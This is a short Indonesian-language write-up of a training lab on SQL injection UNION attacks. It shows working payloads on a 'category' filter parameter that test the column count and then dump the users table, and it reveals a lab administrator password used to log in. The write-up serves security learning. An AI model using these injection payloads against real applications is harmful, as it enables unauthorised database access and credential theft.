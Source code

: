 ##  Write-up: SQL injection UNION attack, retrieving data from other tables

### Langkah Pengerjaan:

1. **Masuk ke lab** lalu pilih salah satu kategori produk (misalnya *Corporate gifts*).
   Request GET akan terlihat seperti:

   ```
   /filter?category=Corporate
   ```

2. **Uji SQL Injection** dengan menambahkan payload `UNION SELECT` sederhana:

   ```
   /filter?category='+UNION+SELECT+'a','a'--
   ```

   → Hasil: halaman menampilkan `a` → artinya query berhasil dieksekusi dan ada **2 kolom teks** yang bisa ditampilkan.
   <img width="1910" height="777" alt="Screenshot 2025-09-11 102449" src="https://github.com/user-attachments/assets/57a19a6b-0a92-4394-a5a0-44524c4e0bc3" />


4. **Ambil data dari tabel `users`** dengan payload berikut:

   ```
   /filter?category='+UNION+SELECT+username,password+FROM+users--
   ```
   → Hasil: semua daftar **username** dan **password** muncul di halaman.
  
<img width="1910" height="939" alt="Screenshot 2025-09-11 102631" src="https://github.com/user-attachments/assets/1c3d4c49-1b33-4cd3-8faa-4f50d81f8764" />

5. **Cari kredensial administrator** dari output:

   ```
   administrator : kkbr8tkqhsul3p96e0ys
   ```

6. **Login ke aplikasi** dengan username `administrator` dan password `kkbr8tkqhsul3p96e0ys`.

 **Lab solved** — berhasil login sebagai administrator.
<img width="905" height="512" alt="Screenshot 2025-09-11 102903" src="https://github.com/user-attachments/assets/32365e14-1c2b-409c-8343-2e8378cf57b7" />


